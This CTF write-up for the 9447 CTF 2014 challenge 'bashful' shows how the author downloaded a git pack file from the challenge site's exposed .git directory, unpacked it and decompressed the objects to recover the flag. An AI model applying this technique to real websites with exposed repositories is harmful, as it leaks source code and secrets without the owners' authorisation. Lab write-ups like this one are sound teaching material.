 ## bashful ##
Writeup by @auscompgeek.

> **Note**: This is the second (ironically easier) of the two git challenges,
> the first being [tumorous](tumorous.md).  This writeup has been written under
> the assumption that the first has been read.

### tl;dr ###
* `.git` repo was exposed (with indexes on after the challenge was "fixed")
* get and unpack the pack file
* read the blob objects (like in tumorous)

### Introduction ###
Upon visiting <http://bashful.9447.plumbing/>, we are presented with a
diary-like page, similar to tumorous.  They seem identical at first glance,
however, a closer inspection reveals something more.

Here are the diary entries:

```
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do? I should also pack so I'm ready to leave soon.
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

Note the extra sentence in the differing entry for 10/9/2004:

> I should also pack so I'm ready to leave soon.

This implies that we may need to look at git pack files.

### Tips and Background ###
In addition to the tips in the tumorous writeup, it is useful to know about the
`git unpack-objects` command.  This reads an object pack file from stdin, and
unpacks the objects within into the current git repo.

### Exploitation ###
As before, we need to get a git blob object that represents `token`.

If we navigate to <http://bashful.9447.plumbing/.git/objects/>, we find that
all the objects are gone.  Navigate to the `pack` subdirectory however, and we
find a pack file named `pack-deff83d57714493c6d317394f3542da8e396f887.pack`.
We can download this and run `git unpack-objects` in a git repo:

```console
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl http://bashful.9447.plumbing/.git/objects/pack/pack-deff83d57714493c6d317394f3542da8e396f887.pack | git unpack-objects
Unpacking objects: 100% (4/4), done.
```

Now that we have all the objects in our git repo, we can now find the blob
object.  I was lazy, so I just decompressed _all_ the objects:

```console
$ cd .git/objects
$ for file in ??/*; do zlib-flate -uncompress < $file | cat -v; done
commit 296^@tree a475f4d3b14d659ee9d08d727a8dee7d896d2ca9
parent ec972f9af79a09129021a30e7f08099aa2b8a81d
author root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000
committer root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000

My precious flag now exists

blob 45^@9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}

tree 71^@100644 index.html^@M-2qM-:^H^TWHlM-^XM-N+M-^V
M-^H\M-_ex^^M-j100644 token^@-(M-,M-pM-^_M-DBO~^W^AM-=|M-^JmM-rM-^^lM-^_M-a
blob 731^@<html>
<head> </head>
<body>
13/2/2004: I learned how to html, yay!<br>
12/4/2004: I learned how to use git, yay!<br>
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.<br>
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.<br>
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.<br>
10/9/2004: I can't forget my token. What do I do? I should pack so I'm ready to leave soon.<br>
11/9/2004: I panicked and deleted the token. It is the work of evil doers.<br>
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.<br>
</body>
</html>
```

Our flag clearly is `9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}`.
Hmm... will Bitcoin die out though?

### Notes ###
It may be easier (hint: it *is*) to `wget` the entire `.git` directory, like
[mathiasbynens did](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful).
I outline this process as this is along the lines of the original intended
solution (before they realised it was impossible).
